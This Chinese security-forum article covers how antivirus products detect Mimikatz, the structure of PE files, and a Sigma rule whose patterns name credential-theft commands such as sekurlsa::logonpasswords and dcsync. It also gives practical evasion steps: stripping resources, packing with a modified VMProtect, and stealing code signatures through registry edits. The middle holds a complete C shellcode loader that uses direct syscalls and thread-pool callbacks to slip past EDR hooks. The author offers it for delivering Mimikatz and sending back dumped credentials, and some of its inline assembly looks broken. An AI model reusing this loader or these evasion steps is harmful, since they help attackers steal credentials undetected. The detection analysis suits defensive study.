# Mimikatz 的检测机制与免杀技术分析及 PE 文件结构解析-先知社区

> **来源**: https://xz.aliyun.com/news/18509  
> **文章ID**: 18509

---

# 前言

本文围绕 Mimikatz 这一典型安全工具，剖析了其相关的检测机制、免杀技术以及 PE 文件结构。在检测机制方面，详细阐述了静态查杀、动态查杀和启发式检测三种方式，包括静态查杀中基于 hash 和特征码的检测流程（如沙箱计算多种哈希值、文件分块提取特征并匹配恶意库），动态查杀中通过 hook 关键 API 和内核回调函数进行监控的原理，以及启发式检测基于权重规则的判定逻辑。同时，介绍了针对 Mimikatz 的静态免杀方法，如修改程序描述信息、加密、加壳、盗取数字签名等，并分析了其效果。此外，还解析了 PE 文件的结构（DOS 头、PE 头、节表、节区数据等），重点探讨了导入表和导出表的功能及在 Mimikatz 中的表现，最后给出了 Mimikatz 的检测规则，为理解恶意程序的检测与防御提供了全面参考。

## 检测分类

* **静态查杀**:主要基于 hash 和特征码，hash可以是文件的 hash 或导入表之类的 hash，特征码可以是 PE 头、全局字符串、互斥体之类的信息。

在这一步只有两点，在沙箱模拟运行、匹配软件特征。在不运行病毒木马的情况下，进行简单的反汇编，查找、匹配是否出现病毒木马特定的指令或者API函数调用序列（静态）

沙箱hash

1. **读取文件二进制数据**：沙箱会将待分析文件（如 EXE、DLL、脚本等）的完整二进制内容加载到内存。
2. **计算多种哈希值**：根据分析需求，沙箱会同时计算文件的多种哈希，包括：

**通用哈希**：MD5、SHA-1、SHA-256（用于匹配已知恶意文件库）；

**模糊哈希**：SSDEEP、TLSH（用于关联相似文件，如病毒变种）；

**PE 特定哈希**：Imphash（针对 PE 文件的导入表哈希，用于识别行为相似的恶意程序）。

3. **存储哈希值**：将计算出的哈希值与文件元数据（如文件名、大小、类型）关联，作为后续分析的基础。

模糊哈希（SSDEEP），属于 “基于内容的分片哈希”，专为检测相似文件设计。将文件分成长度可变的块（块大小随文件内容动态调整），计算每个块的哈希，再合并为最终的 “模糊哈希值”用于识别 “相似文件”（如同一病毒的变种、加壳前后的程序），即使文件有少量修改（如改图标、加注释），模糊哈希仍能体现关联性。模糊哈希（SSDEEP）属于 “基于内容的分片哈希”，专为检测相似文件设计。

1. **文件分块方式**  
   检测系统会将待检测文件按固定大小（如 512 字节、1KB）或动态规则（如按 PE 文件的节区、代码段 / 数据段划分）分成多个块。例如：

对 PE 文件，可按节区（.text、.data、.rsrc 等）分块，每个节区作为独立分析单元；

对脚本文件（如恶意 JavaScript），可按代码行或函数块分块。

2. **提取块特征**  
   对每个块，提取其核心特征：

特征码：块中具有唯一性的字节序列（如恶意代码的关键指令 “mov eax, 0x7c801d7b”）；

字符串：块中包含的敏感字符串（如 “cmd.exe”“病毒”“加密”）；

指令序列：反汇编后得到的 API 调用或操作序列（如 “CreateFileA → WriteFile → CloseHandle” 的文件写入序列）。

3. **分块匹配恶意库**  
   检测系统维护一个 “恶意块特征库”（包含已知恶意文件分块后的特征），将待检测文件的块特征与库中特征比对：

若单个块匹配到强恶意特征（如病毒的核心加密代码块），直接判定为恶意；

若多个块匹配到弱恶意特征（如多个块包含可疑字符串），通过权重累加（启发式规则）判定威胁等级。

​



一般无源码免杀修改程序的描述信息并对其加密就可以完成静态免杀，比如原生的mimikatz.exe，使用Resource Hacker删除这些信息，更换图标，然后加个壳，就可以静态免杀了，可以使用VMProtect，不过不过想要检测通过率高，还要对VMProtect进行修改，把里面默认的消息字符串改一下。静态免杀可以过defender和叁6零，唯独某绒一落地就拦截了；另外可以进行盗取数字签名，不过需要对本地注册表进行修改HKLMSOFTWAREMicrosoftCryptographyOIDEncodingType 0CryptSIPDllVerifyIndirectData下的

{603BCC1F-4B59-4E08-B724-D2C6297EF351} → 通常与 Windows Defender（或其他安全软件）的文件验证相关。

{C689AAB8-8E78-11D0-8C47-00C04FC295EE} → 是 Windows 默认的 Authenticode SIP，用于验证 PE 文件（如 .exe、.dll、.sys）的数字签名。

具体的步骤其它文章有详细的教程，这里就不赘述了。

有了签名，不做其他的修改也可以直接落地和运行，不过要修改注册表

简单做了个实验上传到沙箱分析，第一次上传检测微步是1/24,virustotal是11/71,五天后查看成9/24,19/71了。







* **动态查杀**:基于 API的监控和沙箱执行，杀软会通过对ntdll的关键API进行 hook，实现对程序的 API监控。另外可以在内核中注册一系列的回调函数实现对行为的监控。

比如exe程序使用了一个api MessageBoxA 在user32.dll中实现，如果杀软想要检查是否使用了MessageBoxA就对user32.dll进行hook，把指令改为JUMP到监控的dll，如果正常就返回原逻辑，不正常就查杀，可疑就放进沙箱检测



mimikatz功能对应的主要调用API

|  |  |
| --- | --- |
| **功能/模块** | **主要调用 API/函数** |
| DPAPI | CryptUnprotectData, CryptProtectData |
| 进程/Token 操作 | OpenProcess, OpenProcessToken, GetTokenInformation |
| 注册表/文件 | RegOpenKeyEx, CreateFileW |
| Kerberos | AcquireCredentialsHandle, LsaLogonUser |
| 内存/注入/操作 | VirtualAlloc, WriteProcessMemory, NtReadVirtualMemory |
| 控制台 | SetConsoleTitle, SetConsoleCtrlHandler |

mimikatz主要调用的API

上层API

1. 用户账户与凭据管理  
   LogonUserW  
   GetUserNameW  
   ImpersonateLoggedOnUser  
   RevertToSelf  
   CredEnumerateW  
   CredReadW  
   CredWriteW  
   CredDeleteW
2. 加密与数据保护（DPAPI）  
   CryptProtectData  
   CryptUnprotectData  
   CryptAcquireContextW  
   CryptReleaseContext  
   CryptImportKey  
   CryptExportKey
3. Windows 服务/进程操作  
   CreateProcessW  
   OpenProcess  
   TerminateProcess  
   EnumServicesStatusExW  
   OpenSCManagerW  
   OpenServiceW  
   StartServiceW
4. 注册表操作  
   RegOpenKeyExW  
   RegQueryValueExW  
   RegSetValueExW  
   RegCloseKey
5. 文件与目录操作  
   CreateFileW  
   ReadFile  
   WriteFile  
   DeleteFileW  
   FindFirstFileW  
   FindNextFileW
6. 控制台/输出相关  
   SetConsoleTitleW  
   SetConsoleCtrlHandler  
   WriteConsoleW
7. 网络与安全协议支持  
   AcquireCredentialsHandleW  
   InitializeSecurityContextW  
   AcceptSecurityContext  
   QueryCredentialsAttributesW
8. XML/COM 相关  
   CoInitializeEx  
   CoCreateInstance  
   IXMLDOMDocument 等接口

中层API

1. LSA（本地安全机构）API  
   提供比底层NT API更高层次的安全操作接口，操作凭据、会话等。  
   LsaOpenPolicy  
   LsaRetrievePrivateData  
   LsaStorePrivateData  
   LsaEnumerateAccountsWithUserRight  
   LsaAddAccountRights
2. Security Support Provider Interface (SSPI)  
   用于认证、单点登录等，封装了更底层的协议细节。  
   AcquireCredentialsHandle  
   InitializeSecurityContext  
   AcceptSecurityContext  
   QueryContextAttributes
3. Credential Management API  
   提供了对凭据的管理，比直接操作注册表或DPAPI更高级。  
   CredEnumerate  
   CredRead  
   CredWrite  
   CredDelete
4. DPAPI（数据保护API）  
   介于直接底层加解密操作和上层凭据管理之间，专门用于敏感数据保护。  
   CryptProtectData  
   CryptUnprotectData
5. 服务控制管理器（SCM）API  
   用于服务的查询、启动、停止，比直接操作进程和驱动更高级。  
   OpenSCManager  
   OpenService  
   QueryServiceStatus  
   StartService  
   ControlService
6. 注册表封装API  
   比底层NtOpenKey、NtQueryValueKey更易用。  
   RegOpenKeyEx  
   RegQueryValueEx  
   RegSetValueEx  
   RegCloseKey
7. 进程/Token操作  
   中层的进程与权限管理，比直接用NT API易用。  
   OpenProcessToken  
   DuplicateToken  
   AdjustTokenPrivileges  
   SetThreadToken

调用的底层API

1. NT 系统调用（Native API）  
   NtQuerySystemInformation  
   NtReadVirtualMemory  
   NtWriteVirtualMemory  
   NtOpenProcess  
   NtOpenThread  
   NtQueryInformationProcess  
   NtQueryInformationThread  
   NtQueryObject  
   NtQuerySecurityObject
2. LSA（本地安全机构）API  
   LsaLogonUser  
   LsaUnprotectMemory  
   LsaProtectMemory  
   LsaEnumerateLogonSessions  
   LsaGetLogonSessionData
3. Token 和进程相关  
   OpenProcess  
   OpenProcessToken  
   GetTokenInformation  
   DuplicateToken  
   AdjustTokenPrivileges
4. 内存操作  
   ReadProcessMemory  
   WriteProcessMemory  
   VirtualAllocEx  
   VirtualFreeEx  
   VirtualProtectEx
5. 密码、凭证和DPAPI  
   CryptUnprotectData  
   CryptProtectData  
   CredEnumerate  
   CredRead  
   CredWrite  
   CredDelete
6. 注册表与文件操作  
   RegOpenKeyEx  
   RegQueryValueEx  
   RegSetValueEx  
   CreateFileW  
   ReadFile  
   WriteFile
7. 安全支持提供者接口（SSPI）  
   AcquireCredentialsHandle  
   InitializeSecurityContext  
   AcceptSecurityContext  
   QueryCredentialsAttributes
8. 其他关键API  
   GetUserName  
   LogonUser  
   ImpersonateLoggedOnUser  
   SetThreadToken  
   RevertToSelf



1. mimikatz.exe（用户态，Ring 3）调用 ReadProcessMemory() （Kernel32.dll）。
2. ReadProcessMemory() 进一步调用 NtReadVirtualMemory() （Ntdll.dll，Native API）。
3. NtReadVirtualMemory() 通过系统调用指令（syscall/ntdll）进入内核态。
4. 内核态（Ring 0）由 KiSystemCall64 处理系统调用，通过 SSDT（系统服务描述表）定位到 NtReadVirtualMemory() 的内核实现。
5. Windows 内核执行实际的内存读取操作，将结果返回给用户态的 mimikatz.exe。

Windows 系统中的用户态 Kernel32.dll 的 ReadProcessMemory() 会调用 Ntdll.dll 的 NtReadVirtualMemory() 。安全设备为了检测行为，常常会在native进行 hook —— 拦截 NtWriteVirtualMemory 可检测是否有恶意代码写入其他进程内存（如 DLL 注入），分析的执行代码被确定为无害时返回nativeAPI，最终会通过 syscall 指令（64 位系统）触发系统调用，进入内核态。也可能直接拦截 syscall 指令所在的代码段，或修改系统调用号对应的分发逻辑。

windows方面一般就这三个

Inline API hooking 内联 API 钩子

导入地址表（IAT）钩子

SSDT 钩子（Windows 内核）

* **启发式**:多数杀软采用的是基于权重的启发式，就是一套加减分的规则，用于检测程序的潜在恶意行为，如程序在沙盒或模拟器环境运行，在此过程中有操作端口和通讯的函数，并将自身加载到启动项中等上述行为，则很有可能被判定为恶意，另外一些畸形区块也可触发

现在大多数的防火墙，edr等等安全设备都采用分层特征匹配策略，不同强度的特征组合会触发不同级别的响应；比如一个100M的程序匹配1个强特征或3中特征或10个低特征会进行会采取不同的响应。

应对直接系统调用，间接系统调用，堆栈调用的恶意文件，我们可以放进云沙箱分析有哪些martian\_process，孤儿进程，可能会调用windows系统程序，要识别沙箱中出现的关联程序。

另外，mimikatz文件落地，操作命令或者dump下来的文件回传，可以通过这个shellcode加载器来辅助，通过一系列底层系统调用，在内存中分配空间、写入 Shellcode 并创建线程执行，具有一定的隐蔽性

```
#include <windows.h>
#include <stdio.h>
#include <winternl.h>
#pragma comment( linker, "/subsystem:windows /entry:mainCRTStartup" )

// 异或解密函数
void encode(unsigned char* shellCode, int shellLen) {
    for (int i = 0; i < shellLen; i++) {
        shellCode[i] ^= 0x5;
    }
}

// 这里需要填入实际的shellcode（已加密）
unsigned char shellcode[518] = {
    //替加密shellcode
    0x90, 0x90, 0x90, 0x90  // 仅作为占位符，实际使用时需要替换
    };

// 全局变量保存系统调用信息
DWORD wNtWaitForSingleObject;
UINT_PTR sysAddrNtWaitForSingleObject;

// 线程池函数指针类型定义
typedef NTSTATUS(NTAPI* TPALLOCWORK)(PTP_WORK* ptpWrk, PTP_WORK_CALLBACK pfnwkCallback, 
                                     PVOID OptionalArg, PTP_CALLBACK_ENVIRON CallbackEnvironment);
typedef VOID(NTAPI* TPPOSTWORK)(PTP_WORK);
typedef VOID(NTAPI* TPRELEASEWORK)(PTP_WORK);

// NtAllocateVirtualMemory系统调用参数结构
typedef struct _NTALLOCATEVIRTUALMEMORY_ARGS {
    UINT_PTR pNtAllocateVirtualMemory;  // 函数地址
    HANDLE hProcess;                    // 进程句柄
    PVOID* address;                     // 基地址指针
    PSIZE_T size;                       // 区域大小
    ULONG permissions;                  // 保护标志
} NTALLOCATEVIRTUALMEMORY_ARGS, * PNTALLOCATEVIRTUALMEMORY_ARGS;

// NtWriteVirtualMemory系统调用参数结构
typedef struct _NTWRITEVIRTUALMEMORY_ARGS {
    UINT_PTR pNtWriteVirtualMemory;     // 函数地址
    HANDLE hProcess;                    // 进程句柄
    LPVOID baseAddress;                 // 写入地址
    LPVOID buffer;                      // 源缓冲区
    SIZE_T size;                        // 大小
    PSIZE_T bytesWritten;               // 实际写入字节数
} NTWRITEVIRTUALMEMORY_ARGS, * PNTWRITEVIRTUALMEMORY_ARGS;

// NtCreateThreadEx系统调用参数结构
typedef struct _NTCREATETHREADEX_ARGS {
    UINT_PTR pNtCreateThreadEx;         // 函数地址
    PHANDLE hThread;                    // 线程句柄
    ACCESS_MASK access;                 // 访问权限
    PVOID objectAttributes;             // 对象属性
    HANDLE hProcess;                    // 进程句柄
    PVOID startRoutine;                 // 线程函数
    PVOID argument;                     // 函数参数
    ULONG flags;                        // 标志
    SIZE_T zeroBits;                    // 零位
    SIZE_T stackSize;                   // 栈大小
    SIZE_T maxStackSize;                // 最大栈大小
    PVOID attributeList;                // 属性列表
} NTCREATETHREADEX_ARGS, * PNTCREATETHREADEX_ARGS;

// 声明回调函数
VOID CALLBACK WorkCallback(PTP_CALLBACK_INSTANCE Instance, PVOID Context, PTP_WORK Work);
VOID CALLBACK Work2Callback(PTP_CALLBACK_INSTANCE Instance, PVOID Context, PTP_WORK Work);
VOID CALLBACK Work3Callback(PTP_CALLBACK_INSTANCE Instance, PVOID Context, PTP_WORK Work);

// 获取系统调用号
DWORD GetSyscallNumber(UINT_PTR functionAddress) {
    // 解析函数开头获取系统调用号
    // 典型模式: mov eax, syscall_num; syscall; ret
    if (*(BYTE*)(functionAddress) == 0xB8) {  // mov eax, ...
        return *(DWORD*)(functionAddress + 1);
    }
    // 处理另一种常见模式: lea r10, [rcx]; mov eax, syscall_num; syscall; ret
    else if (*(BYTE*)(functionAddress) == 0x4C && 
             *(BYTE*)(functionAddress + 1) == 0x8D && 
             *(BYTE*)(functionAddress + 2) == 0x1C && 
             *(BYTE*)(functionAddress + 3) == 0x24) {
        return *(DWORD*)(functionAddress + 7);
    }
    return 0;
}

// 执行系统调用的内联汇编
__declspec(naked) NTSTATUS SyscallInvoke(DWORD syscallNumber, 
                                         UINT_PTR rcx, UINT_PTR rdx, 
                                         UINT_PTR r8, UINT_PTR r9, 
                                         UINT_PTR stackArg1) {
    __asm {
        mov r10, rcx        // 系统调用使用r10代替rcx
            mov eax, [syscallNumber]  // 系统调用号存入eax
            push stackArg1      // 栈上的第一个参数
            syscall             // 执行系统调用
            add rsp, 8          // 清理栈
            ret                 // 返回
        }
}

// 分配内存的回调函数
VOID CALLBACK WorkCallback(PTP_CALLBACK_INSTANCE Instance, PVOID Context, PTP_WORK Work) {
    UNREFERENCED_PARAMETER(Instance);
    UNREFERENCED_PARAMETER(Work);

    PNTALLOCATEVIRTUALMEMORY_ARGS args = (PNTALLOCATEVIRTUALMEMORY_ARGS)Context;
    if (!args) return;

    // 获取系统调用号
    DWORD syscallNum = GetSyscallNumber(args->pNtAllocateVirtualMemory);
    if (syscallNum == 0) return;

    // 调用NtAllocateVirtualMemory系统调用
    // 参数: rcx=hProcess, rdx=address, r8=0, r9=size, stackArg=AllocationType | permissions
    SyscallInvoke(syscallNum,
                  (UINT_PTR)args->hProcess,
                  (UINT_PTR)args->address,
                  0,  // ZeroBits
                  (UINT_PTR)args->size,
                  (MEM_COMMIT | MEM_RESERVE) | ((UINT_PTR)args->permissions << 32));
}

// 写入内存的回调函数
VOID CALLBACK Work2Callback(PTP_CALLBACK_INSTANCE Instance, PVOID Context, PTP_WORK Work) {
    UNREFERENCED_PARAMETER(Instance);
    UNREFERENCED_PARAMETER(Work);

    PNTWRITEVIRTUALMEMORY_ARGS args = (PNTWRITEVIRTUALMEMORY_ARGS)Context;
    if (!args) return;

    // 获取系统调用号
    DWORD syscallNum = GetSyscallNumber(args->pNtWriteVirtualMemory);
    if (syscallNum == 0) return;

    // 调用NtWriteVirtualMemory系统调用
    // 参数: rcx=hProcess, rdx=baseAddress, r8=buffer, r9=size, stackArg=bytesWritten
    SyscallInvoke(syscallNum,
                  (UINT_PTR)args->hProcess,
                  (UINT_PTR)args->baseAddress,
                  (UINT_PTR)args->buffer,
                  (UINT_PTR)args->size,
                  (UINT_PTR)args->bytesWritten);
}

// 创建线程的回调函数
VOID CALLBACK Work3Callback(PTP_CALLBACK_INSTANCE Instance, PVOID Context, PTP_WORK Work) {
    UNREFERENCED_PARAMETER(Instance);
    UNREFERENCED_PARAMETER(Work);

    PNTCREATETHREADEX_ARGS args = (PNTCREATETHREADEX_ARGS)Context;
    if (!args) return;

    // 获取系统调用号
    DWORD syscallNum = GetSyscallNumber(args->pNtCreateThreadEx);
    if (syscallNum == 0) return;

    // 调用NtCreateThreadEx系统调用
    // 栈上参数较多，需要按顺序压栈
    __asm {
        mov r10, rcx
            mov eax, syscallNum
            push args.attributeList
            push args.maxStackSize
            push args.stackSize
            push args.zeroBits
            push args.flags
            push args.argument
            push args.startRoutine
            syscall
            add rsp, 0x38  // 清理栈上的7个参数 (7*8=0x38)
        }
}

int main() {
    // 隐藏控制台窗口
    HWND hwnd = GetConsoleWindow();
    if (hwnd != NULL) {
        ShowWindow(hwnd, SW_HIDE);
    }

    LPVOID allocatedAddress = NULL;
    SIZE_T allocatedsize = 0x1000;  // 分配4KB内存
    HANDLE hNtdll = GetModuleHandleA("ntdll.dll");
    if (!hNtdll) return 1;

    // 初始化线程池函数
    TPALLOCWORK pTpAllocWork = (TPALLOCWORK)GetProcAddress(hNtdll, "TpAllocWork");
    TPPOSTWORK pTpPostWork = (TPPOSTWORK)GetProcAddress(hNtdll, "TpPostWork");
    TPRELEASEWORK pTpReleaseWork = (TPRELEASEWORK)GetProcAddress(hNtdll, "TpReleaseWork");

    if (!pTpAllocWork || !pTpPostWork || !pTpReleaseWork) {
        return 1;
    }

    // 1. 分配内存
    NTALLOCATEVIRTUALMEMORY_ARGS ntAllocateVirtualMemoryArgs = {0};
    ntAllocateVirtualMemoryArgs.pNtAllocateVirtualMemory = 
        (UINT_PTR)GetProcAddress(hNtdll, "NtAllocateVirtualMemory");
    ntAllocateVirtualMemoryArgs.hProcess = (HANDLE)-1;  // 当前进程
    ntAllocateVirtualMemoryArgs.address = &allocatedAddress;
    ntAllocateVirtualMemoryArgs.size = &allocatedsize;
    ntAllocateVirtualMemoryArgs.permissions = PAGE_EXECUTE_READWRITE;

    PTP_WORK WorkReturn = NULL;
    if (pTpAllocWork(&WorkReturn, WorkCallback, &ntAllocateVirtualMemoryArgs, NULL) == 0) {
        pTpPostWork(WorkReturn);
        Sleep(100);  // 等待操作完成
        pTpReleaseWork(WorkReturn);
    }

    if (!allocatedAddress) {
        return 1;  // 内存分配失败
    }

    // 2. 解密并写入Shellcode
    encode(shellcode, sizeof(shellcode));  // 解密shellcode

    NTSTATUS status;
    SIZE_T bytesWirtten = 0;
    NTWRITEVIRTUALMEMORY_ARGS ntWriteVirtualMemoryArgs = {0};
    ntWriteVirtualMemoryArgs.pNtWriteVirtualMemory = 
        (UINT_PTR)GetProcAddress(hNtdll, "NtWriteVirtualMemory");
    ntWriteVirtualMemoryArgs.hProcess = (HANDLE)-1;
    ntWriteVirtualMemoryArgs.baseAddress = allocatedAddress;
    ntWriteVirtualMemoryArgs.buffer = shellcode;
    ntWriteVirtualMemoryArgs.size = sizeof(shellcode);
    ntWriteVirtualMemoryArgs.bytesWritten = &bytesWirtten;

    PTP_WORK WorkReturn2 = NULL;
    if (pTpAllocWork(&WorkReturn2, Work2Callback, &ntWriteVirtualMemoryArgs, NULL) == 0) {
        pTpPostWork(WorkReturn2);
        Sleep(100);  // 等待操作完成
        pTpReleaseWork(WorkReturn2);
    }

    if (bytesWirtten != sizeof(shellcode)) {
        return 1;  // 写入失败
    }

    // 3. 创建线程执行Shellcode
    HANDLE hThread = NULL;
    NTCREATETHREADEX_ARGS threadArgs = {0};
    threadArgs.pNtCreateThreadEx = (UINT_PTR)GetProcAddress(hNtdll, "NtCreateThreadEx");
    threadArgs.hThread = &hThread;
    threadArgs.access = GENERIC_EXECUTE;
    threadArgs.objectAttributes = NULL;
    threadArgs.hProcess = (HANDLE)-1;
    threadArgs.startRoutine = (LPTHREAD_START_ROUTINE)allocatedAddress;
    threadArgs.argument = NULL;
    threadArgs.flags = 0;
    threadArgs.zeroBits = 0;
    threadArgs.stackSize = 0;
    threadArgs.maxStackSize = 0;
    threadArgs.attributeList = NULL;

    PTP_WORK WorkReturn3 = NULL;
    if (pTpAllocWork(&WorkReturn3, Work3Callback, &threadArgs, NULL) == 0) {
        pTpPostWork(WorkReturn3);
        Sleep(100);  // 等待操作完成
        pTpReleaseWork(WorkReturn3);
    }

    // 等待线程执行完成
    if (hThread) {
        WaitForSingleObject(hThread, INFINITE);
        CloseHandle(hThread);
    }

    return 0;
}

```

## PE浅析

### PE基础

PE文件结构：**DOS头+PE头+节表+节区数据（.data/.rdata/.text）**

前两个字节为5A4D（MZ）可执行文件

* DOS头 **共40H(64字节)** DOS头中声明用的寄存器 **e\_magic** ：判断一个文件是不是PE文件； **e\_lfanew** ：相对于文件首的偏移量，用于找到PE头;(最重要字段)
* PE头 PE头是Windows可执行文件的核心结构，包含文件的元数据和布局信息。也叫NT头，NT 头（NT Headers），PE 头（PE Header），只是不同资料中叫法不同。

PE头由三部分组成：

PE签名：（4字节）"PE��"(0x50450000)

文件头(IMAGE\_FILE\_HEADER) ：（20字节） CPU 架构、节区数量等。

可选头(IMAGE\_OPTIONAL\_HEADER)：（PE32 为 224 字节，PE32+ 为 240 字节）：入口点、映像基址、数据目录等。



每个 PE 文件都以一个 MS-DOS 可执行文件开头，该文件以开头IMAGE\_DOS\_SIGNATURE。其 ASCII 表示为0x5A4D。

#### DOS头



e\_magic和e\_lfanew，这两个成员比较重要**e\_magic是一种标识，e\_lfanew则表示PE文件头的位置**

#### PE头

##### PE标识



##### 标准PE头



SizeOfOptionalHeader：32位PE文件对应值位0xE0，64位PE文件对应值为0xF0。

##### PE头-可选头



Magic-32位时该值对应0x10B，64位时该值对应0x20B。

关键字段大小

|  |  |  |  |
| --- | --- | --- | --- |
| **字段** | **32位大小** | **64位大小** | **说明** |
| ImageBase | 4字节 | 8字节 | 首选加载地址 |
| SizeOfStackReserve | 4字节 | 8字节 | 保留的栈大小 |
| SizeOfStackCommit | 4字节 | 8字节 | 初始提交的栈大小 |
| SizeOfHeapReserve | 4字节 | 8字节 | 保留的堆大小 |
| SizeOfHeapCommit | 4字节 | 8字节 | 初始提交的堆大小 |



对于直接系统调用注入器低级 API，所需的 API 系统调用从注入器自身的.text 段加载。

数据模型差异

32位PE使用ILP32数据模型(32位整数、长整型和指针)

64位PE使用LP64数据模型(32位整数，64位长整型和指针)

### 导入表（Import Table） 和 导出表（Export Table）

**程序依赖的外部函数**   **|**  **提供给外部的函数**

|  |  |  |
| --- | --- | --- |
| **对比项** | **导入表（Import Table）** | **导出表（Export Table）** |
| **功能** | 记录程序运行时需要调用的外部函数。 | 记录 DLL 中可供其他程序调用的函数。 |
| **所属文件** | EXE 或 DLL（依赖其他 DLL 时）。 | 仅 DLL（或少数特殊 EXE）。 |
| **场景** | **mimikatz.exe** 调用 **advapi32.dll!RegOpenKey**。 | **kernel32.dll** 导出 **CreateFileW** 供其他程序使用。 |

exe需要使用.dll中所提供的函数,这些dll中就有相应的导出表,然后exe用LoadLibrary动态加载,最后通过GetProcAddress到获取函数的地址!

#### 导入表

动态链接库调用：程序不会把所有代码都打包进自身，而是用 DLL 提供的功能。导入表就列出了这些外部依赖。

加载与链接：当程序启动，Windows 加载器会根据导入表，把需要的 DLL 加载到内存，并把函数地址补全。

可以看看左边是经过VMProtect加壳后的mimikatz.exe, 对比一下他们的导入表

原始 Mimikatz： 导入表会完整列出所有依赖的 DLL（如 advapi32.dll、kernel32.dll、ntdll.dll）及其调用的 API（如 OpenProcessToken、LsassEnumLogonSessions）。 在 CFF Explorer 中，可以清晰看到所有导入的函数。 VMProtect 保护后的 mimikatz： 部分 API 可能被隐藏或动态解析： VMProtect 可能会 移除或混淆部分导入表项，改为运行时通过 GetProcAddress + LoadLibrary 动态加载。 某些关键 API（如 ReadProcessMemory、AdjustTokenPrivileges）可能不会直接在导入表中显示，而是通过 壳代码 动态获取。



我们可以通过分析 PE 文件的导入表 DLL 及其函数，可以大致推断程序的功能。

就比如这个cryptdll.dll，还有一些需要动态加载才能看到的dll

静态的



动态加载的





#### 导出表

函数调用接口：它定义了哪些函数（或变量）是可以被其他模块调用的，比如其他程序、系统或者同一进程中的其他DLL。

动态链接：当你在代码中用LoadLibrary和GetProcAddress动态加载DLL时，就是通过导出表来定位你要调用的函数地址的。

这是mimilib.dll的导出表



mimilib.dll 可以被注入到 Windows 的 lsass.exe 进程中，参与到 NTLM、Kerberos 等认证协议的处理流程中，从而实现钩取、篡改或记录用户凭据（如明文密码、hash、票据等）。

其中：mimikatz 的名字直接表明它与 mimikatz 主体功能相关，用于与 mimikatz 通信、触发主逻辑、初始化或实现某种攻击或抓取操作的接口。

Msv1\_0SubAuthenticationFilter、Msv1\_0SubAuthenticationRoutine、PasswordChangeNotify 等，是和 Windows 认证、密码更改流程挂钩的回调函数。这它们是作为“钩子函数”让 DLL 能被系统调用。 例如，PasswordChangeNotify 通常用于通知 DLL 有密码变更，这为密码抓取提供机会。

```
title:Mimikatz
detection:
  selection_tool_names:
    Image|endswith:
      - '\mimikatz.exe'
      - '\mimikatz_x64.exe'
      - '\mimikatz_x86.exe'
      - '\m.exe'
      - '\mk.exe'
      - '\mz.exe'
    OriginalFileName:
      - 'mimikatz.exe'
      - 'mimikatz.sln'
      - 'm.exe'
      - 'mk.exe'
      - 'mimilib.dll'
      - 'mimispool.dll'
      - 'mimispool.dll'
      - 'mimilove.exe'
    CommandLine|contains:
      - 'mimikatz'
      - 'mzk'
      - 'mkz'
      - 'DumpCreds'
      - 'creddump'
      - 'mimikatz_'
      - 'mimikatz32'
      - 'mimikatz64'
  selection_modules:
    CommandLine|contains:
      - 'rpc::'
      - 'token::'
      - 'crypto::'
      - 'dpapi::'
      - 'sekurlsa::'
      - 'kerberos::'
      - 'lsadump::'
      - 'privilege::'
      - 'process::'
      - 'vault::'
      - 'sam::'
      - 'sid::'
      - 'net::'
      - 'hash::'
      - 'cert::'
      - 'event::'
      - 'service::'
      - 'ts::'
      - 'misc::'
      - 'sysenv::'
      - 'ldap::'
      - 'ssp::'
      - 'minesweeper::'
      - 'memssp::'
  selection_commands:
    CommandLine|contains:
      - '::aadcookie'
      - '::detours'
      - '::memssp'
      - '::mflt'
      - '::ncroutemon'
      - '::ngcsign'
      - '::printnightmare'
      - '::skeleton'
      - '::preshutdown'
      - '::mstsc'
      - '::multirdp'
      - '::logonpasswords'
      - '::tickets'
      - '::dcsync'
      - '::dump'
      - '::masterkey'
      - '::hashdump'
      - '::capture'
      - '::golden'
      - '::silver'
      - '::ptt'
      - '::pth'
      - '::overpass'
      - '::dcsync_ntlm'
      - '::lsadump'
      - '::samdump'
      - '::cache'
      - '::tsssp'
      - '::livessp'
      - '::ssp'
  selection_behavior:
    CommandLine|contains:
      - 'privilege::debug'
      - 'sekurlsa::logonpasswords'
      - 'lsadump::dcsync'
      - 'token::elevate'
      - 'process::open'
      - 'inject::'
    ParentImage|endswith:
      - '\cmd.exe'
      - '\powershell.exe'
      - '\pwsh.exe'
      - '\cscript.exe'
      - '\wscript.exe'
      - '\regsvr32.exe'
      - '\mshta.exe'
      - '\rundll32.exe'
      - '\svchost.exe'
      - '\taskhostw.exe'
      - '\explorer.exe'
  filter_out:
    CommandLine|contains:
      - 'C:\Program Files\Microsoft Monitoring Agent\Agent\Health Service State'
      - 'C:\Windows\WinSxS\'
      - 'C:\Program Files\Windows Defender\'
      - 'C:\Program Files (x86)\Windows Kits\'
    User|contains:
      - 'NT AUTHORITY\SYSTEM'
    Image|startswith:
      - 'C:\Program Files\'
      - 'C:\Program Files (x86)\'
      - 'C:\Windows\System32\'
      - 'C:\Windows\SysWOW64\'
```
